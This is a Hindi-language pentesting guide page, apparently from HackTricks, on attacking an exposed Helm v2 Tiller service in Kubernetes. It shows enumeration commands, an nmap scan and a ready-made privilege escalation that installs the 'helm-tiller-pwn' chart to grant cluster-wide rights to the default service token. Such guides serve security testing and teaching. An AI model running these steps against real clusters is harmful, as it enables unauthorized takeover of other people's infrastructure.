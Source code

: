 {{#include ../banners/hacktricks-training.md}}

# मूल जानकारी

Helm Kubernetes के लिए **पैकेज प्रबंधक** है। यह YAML फ़ाइलों को पैकेज करने और उन्हें सार्वजनिक और निजी रिपॉजिटरी में वितरित करने की अनुमति देता है। इन पैकेजों को **Helm Charts** कहा जाता है। **Tiller** वह **सेवा** है जो डिफ़ॉल्ट रूप से पोर्ट 44134 में चल रही है।

**डिफ़ॉल्ट पोर्ट:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# Enumeration

यदि आप विभिन्न namespaces के **pods और/या सेवाओं को सूचीबद्ध कर सकते हैं**, तो उन्हें सूचीबद्ध करें और उन सेवाओं की खोज करें जिनके नाम में **"tiller"** है:
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
उदाहरण:
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
आप इस सेवा को चलाते हुए पोर्ट 44134 की जांच करके भी खोजने की कोशिश कर सकते हैं:
```bash
sudo nmap -sS -p 44134 <IP>
```
एक बार जब आप इसे खोज लेते हैं, तो आप क्लाइंट हेल्म एप्लिकेशन डाउनलोड करके इसके साथ संवाद कर सकते हैं। आप `homebrew` जैसे टूल का उपयोग कर सकते हैं, या [**आधिकारिक रिलीज़ पृष्ठ**](https://github.com/helm/helm/releases)** को देख सकते हैं।** अधिक विवरण के लिए, या अन्य विकल्पों के लिए, [स्थापना गाइड](https://v2.helm.sh/docs/using_helm/#installing-helm) देखें।

फिर, आप **सेवा की गणना कर सकते हैं**:
```
helm --host tiller-deploy.kube-system:44134 version
```
## Privilege Escalation

डिफ़ॉल्ट रूप से **Helm2** को **namespace kube-system** में **उच्च विशेषाधिकार** के साथ स्थापित किया गया था, इसलिए यदि आप सेवा को खोजते हैं और इसमें पहुंच रखते हैं, तो यह आपको **विशेषाधिकार बढ़ाने** की अनुमति दे सकता है।

आपको बस एक पैकेज स्थापित करने की आवश्यकता है जैसे कि यह: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) जो **डिफ़ॉल्ट सेवा टोकन को पूरे क्लस्टर में सब कुछ तक पहुंच प्रदान करेगा।**
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
[http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) में आपको **हमले का विवरण** मिलेगा, लेकिन मूल रूप से, यदि आप फ़ाइलें [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) और [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) को _helm-tiller-pwn/pwnchart/templates/_ के अंदर पढ़ते हैं, तो आप देख सकते हैं कि **सभी विशेषाधिकार डिफ़ॉल्ट टोकन को दिए जा रहे हैं**।

{{#include ../banners/hacktricks-training.md}}
